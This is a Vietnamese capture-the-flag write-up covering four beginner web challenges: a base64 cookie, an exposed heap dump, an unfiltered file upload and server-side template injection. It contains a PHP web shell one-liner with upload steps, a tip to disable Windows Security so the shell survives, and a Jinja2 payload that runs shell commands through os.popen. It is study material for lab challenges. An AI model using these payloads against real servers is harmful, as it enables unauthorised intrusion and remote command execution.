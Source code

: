 # Cookie Monster Secret Recipe

<h4> **đề bài**: Cookie Monster has hidden his top-secret cookie recipe somewhere on his website. As an aspiring cookie detective, your mission is to uncover this delectable secret. Can you outsmart Cookie Monster and find the hidden recipe? You can access the Cookie Monster here and good luck <h4>

**Phân tích**

. bài cho 1 số hint về cookie của trang web này => điều đầu tiên ta nghĩ tới là kiếm tra cookie của trang web này

![image](https://github.com/user-attachments/assets/7c4fb121-335a-49c4-8311-b06819b21f6e)

2. có vẻ cookie của trang web chưa có gì, thử đăng nhập với tên và mật khẩu bất kì, ta sẽ thấy 1 đoạn base64 xuất hiện trong data cookie
3. decode đoạn base64 rồi nộp flag

# head-dump

![image](https://github.com/user-attachments/assets/3d6c6438-bf1c-4002-a84a-8979b00251cc)

1. đề bài nói rằng đây là 1 trang blog bao gồm cả 'API Documentation' khá là đáng ngờ khi chỉ riêng điều này được liệt kê

![image](https://github.com/user-attachments/assets/d9cbce66-0ee1-43dc-9014-613d4b3dccf2)

2. cố gắng truy cập vào cuối trang web khi bấm vào #API Documentation ta sẽ được di chuyển tới 1 trang web khác
3. kéo xuống cuối sẽ có 1 mục 'heap-dump' giống như đề bài 'try it out' -> 'excute' -> tải file trên trang web về rồi `ctrl + f` để tìm flag

# n0s4n1ty 1

![image](https://github.com/user-attachments/assets/91e5a6b3-7f82-402c-8c9f-81bd5fe1987b)
![image](https://github.com/user-attachments/assets/7a6c379d-a600-4c89-a5b1-e24b764ced1b)

1. dựa theo đề bài và hint 1, trang web này là 1 trang web tải lên ảnh đại điện nhưng bị lỗi và các file được gửi lên không được lọc định dạng
2. đây là cơ hội cho ta để thâm nhập vào trang web để đọc flag từ thư mục `/root`
3. ta sẽ bypass trang wep này bằng 1 file `.php`

        php: là một ngôn ngữ lập trình web, các file thường có đuổi `.php`
        ta cần tạo 1 file web shell .php để điều khiển trang web từ xa

4. tạo 1 file text và ghi dòng lệnh `<?php system($_GET['cmd']); ?>` rồi `save as` với đuôi `.php`

        $_GET['cmd'] lấy dữ liệu từ đường link URL.
        system() thực thi lệnh hệ thống trên server.

5. vì đây là 1 file crack trang web, tự như mã độc lên windown security sẽ xóa nó ngay, ta cần tắt đi trước khi tạo
6. upload file này lên trang web sau đó dùng đường link để ghi lệnh `http://expico.com/uploads/shell.php?cmd=sudo ls -l` để liệt kê file trong web
7. rồi cat file flag từ thư mục `root` ra

# SSTI1

![image](https://github.com/user-attachments/assets/50e41e6e-2d21-4f36-8169-8c3255af2fed)

1. `ssti` à viết tắt của Server-Side Template Injection (tấn công chèn mã vào lỗ hổng), đây là 1 lỗ hổng cảu trang web khi xử lý input của người dùng, họ có thể chèn mã độc vào input có thể gây ra nhiều hậu quả
2. dựa vào tên đề bài ta thử trang web bằng cách nhập `{{ 7*7 }}` và trang web trả lại kết quả là 49 => trang web có lỗ hổng và có thể sử dụng các câu lệnh để bypass trang web
3. tiếp theo ta cần kiểm tra trang web xem trang web sử dụng framework nào để dùng câu lệnh của framework đó để bypass
4. ta check bằng devtool của trình duyệt và thấy
![image](https://github.com/user-attachments/assets/096a92f3-6960-4326-aa83-9ba60793bc4e)


           Werkzeug là WSGI toolkit phổ biến được Flask sử dụng.
           Python/3.8.10 cho thấy backend chạy bằng Python.
           Flask mặc định dùng Jinja2 để render templates, nên có thể thử khai thác SSTI. 

5. nhập `{{ cycler.__init__.__globals__.os.popen('ls -la').read() }}` để liệt kê các file

           đây là 1 lệnh thuộc Jinja2
           cycle.__init__.__globals__: cho phép ta truy cập tới biến toàn cục bộ python kể các cac mô dun hệ thống
           os.popen(): mở 1 tiến trình con chạy lệnh shell nhắn thực thi lệnh `ls -la`
           .read(): để đọc ra kết quả

6. rồi cat file flag











